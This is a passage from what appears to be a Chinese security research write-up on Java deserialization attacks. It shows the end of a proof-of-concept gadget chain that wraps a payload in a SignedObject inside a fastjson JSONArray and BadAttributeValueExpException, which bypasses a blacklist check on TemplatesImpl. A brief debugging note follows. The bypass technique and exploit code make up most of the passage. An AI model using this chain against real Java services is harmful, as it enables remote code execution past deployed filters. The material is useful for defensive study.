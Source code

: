 ```bash
        ReflectionUtils.setFieldValue(bd2,"val",jsonArray2);

        list.add(bd2);

        //二次反序列化
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) list, kp.getPrivate(), Signature.getInstance("DSA"));

        //触发SignedObject#getObject
        JSONArray jsonArray1 = new JSONArray();
        jsonArray1.add(signedObject);

        BadAttributeValueExpException bd1 = new BadAttributeValueExpException(null);
        ReflectionUtils.setFieldValue(bd1,"val",jsonArray1);

        //验证
        byte[] payload = SerializerUtils.serialize(bd1);

        ObjectInputStream ois = new MyInputStream(new ByteArrayInputStream(payload));  //再套一层inputstream检查TemplatesImpl，不可用
        ois.readObject();

    }
}
```

#### 调试

通过`SingedObject`绕过了黑名单对于`Templates`的校验。触发`BadAttributeValueExpException#readObject`，通过`gf.get`获取`JsonArray`。

[![](assets/1701612487-89e78da776540ab734b3be2c69bc58f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230613164356-6eeb4668-09c6-1.png)
